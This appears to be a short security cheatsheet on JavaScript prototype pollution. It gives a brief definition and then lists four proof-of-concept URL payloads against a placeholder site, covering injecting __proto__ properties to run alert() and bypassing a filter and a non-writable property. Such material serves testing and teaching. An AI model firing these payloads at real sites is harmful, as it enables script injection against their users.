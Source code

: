 ```yaml
---
title: Prototype pollution
description: Prototype pollution cheatsheets.
---
```


# Prototype pollution

## Definition

Prototype pollution is a type of vulnerability that occurs when an attacker is able to manipulate the prototype of an object in a JavaScript application. This can allow the attacker to add or modify properties on the object, which can have serious consequences for the security and functionality of the application.

In JavaScript, the prototype of an object is a property that specifies the object from which it inherits properties. When an object is created, it can inherit properties from its prototype, and these properties can be accessed and modified using the object's prototype property.

Prototype pollution occurs when an attacker is able to manipulate the prototype of an object in a way that allows them to add or modify properties on the object. This can be done using a variety of techniques, such as injecting malicious data into the application or using specially crafted payloads to exploit vulnerabilities in the application's code.

## Attacks

- `https://example.com/?search=toto&__proto__[transport_url]=data:,alert(1)`
- `https://example.com/?search=toto&__proto__.sequence='1')};alert()//`
- Bypass non writable object using `Object.defineProperty()`'s `value` attribute : `https://example.com/?__proto__[value]=data:,alert(1)`
- Bypass filter `https://example.com/?__pro__proto__to__[transport_url]=data:,alert()`
